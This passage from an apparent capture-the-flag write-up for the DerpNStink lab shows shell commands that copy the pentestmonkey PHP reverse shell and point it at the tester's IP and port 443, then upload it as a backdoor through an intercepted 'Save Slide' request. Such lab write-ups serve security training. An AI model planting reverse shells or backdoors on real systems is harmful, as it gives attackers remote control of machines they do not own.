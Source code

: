 ![](/assets/images/derpnstink/screenshot-10.png)

Then we copy the pentestmonkey reverse shell to our current directory and change the the IP address for to ours and the port.

```bash
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
root@kali:~$ sed -i 's/127.0.0.1/192.168.179.1/;s/1234/443/' shell.php
```

First we intercept the request with burpsuite and then we click **Save Slide**, in the **filename** field we change it to the name of our backdoor and after we enter the malicious PHP code, as shown below:

![](/assets/images/derpnstink/screenshot-11.png)

